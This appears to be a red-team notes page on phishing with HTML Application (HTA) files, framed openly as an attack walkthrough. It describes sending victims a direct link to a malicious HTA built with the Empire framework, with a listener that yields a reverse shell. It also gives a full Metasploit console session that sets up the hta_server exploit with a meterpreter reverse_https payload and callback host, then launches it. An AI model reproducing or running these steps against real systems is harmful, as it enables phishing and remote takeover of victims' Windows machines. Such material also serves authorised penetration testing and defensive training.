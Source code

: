 # ⭕ HTA

{% embed url="http://blog.sevagas.com/?Hacking-around-HTA-files=" %}

An HTML Application (HTA) is a Microsoft Windows program whose source consists of HTML, Dynamic HTML, and one or more scripting languages supported by Internet Explorer, such as VBScript or JScript.

In this example we will be assuming that attachments are not allowed in our Emails, so we will need to send a user a Direct link where we will bypass the email attachment and directly download our Binary(HTA), in the following we will use Empire Framework to create our malicious binary. This attack can also be considered an attachment but here an HTA file is being downloaded and executed.

Empire is a post-exploitation framework that includes a pure Powershell2.0 Windows agent, and a pure Python 2.6/2.7 Linux/OS X agent. It is the merge of the previous PowerShell Empire and Python EmPyre projects. Empire implements the ability to run Powershell agents without the need of powershell.exe, rapidly deployable post-exploitation modules from keyloggers to evade network detection PowerShell premiered at BSides in 2015.

## <mark style="color:red;">Examples</mark>

We can create Macros, HTA files and OLE Objects for phishing (this example will contain a HTA phishing style and there will be links for reference) we can start Empire from our Linux box and use the following steps \[Remember this is the most basic attack so it will get detected].

`At the time of writing I was using Empire 2.5 there is a newer version 3.0, major updates but procedure is similar`

We execute Empire :&#x20;

![](<../../.gitbook/assets/image (18) (1) (1).png>)

We will need to setup a listener that will listen for our connection once executed on the victim

![](<../../.gitbook/assets/image (40) (1) (1).png>)

We proceed to execute

![](<../../.gitbook/assets/image (16) (1).png>)

We will setup our listener and an OutFile to send to our victim

![](<../../.gitbook/assets/image (3).png>)

Execute again to create our payload, make sure to add the extension to it or Empire will create a file not functional for our attack.

![](<../../.gitbook/assets/image (10).png>)

Once here it's up to creativity on how to send this file I will continue with this just for DEMO purposes.

![](<../../.gitbook/assets/image (22) (1) (1) (1).png>)

after execution, when get a reverse shell.

## <mark style="color:red;">Metasploit HTA Server</mark>

The Metasploit HTA Web Server exploit module hosts an HTA that when opened runs a payload via PowerShell.

To use, simply set the IP for the server, a custom URI, the payload you which to execute, and the IP of the listener:

```markup
root@kali:~# msfconsole -q
msf > use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set SRVHOST 192.168.216.5 
SRVHOST => 192.168.216.5
msf exploit(windows/misc/hta_server) > set URIPATH form
URIPATH => form
msf exploit(windows/misc/hta_server) > set PAYLOAD windows/meterpreter/reverse_https
PAYLOAD => windows/meterpreter/reverse_https
msf exploit(windows/misc/hta_server) > set LHOST 192.168.216.5 
LHOST => 192.168.216.5
msf exploit(windows/misc/hta_server) > exploit 
[*] Exploit running as background job 0.

[*] Started HTTPS reverse handler on https://192.168.216...Copy
```

## <mark style="color:red;">Other Tools</mark>

{% embed url="https://www.hackingarticles.in/windows-exploitation-mshta" %}
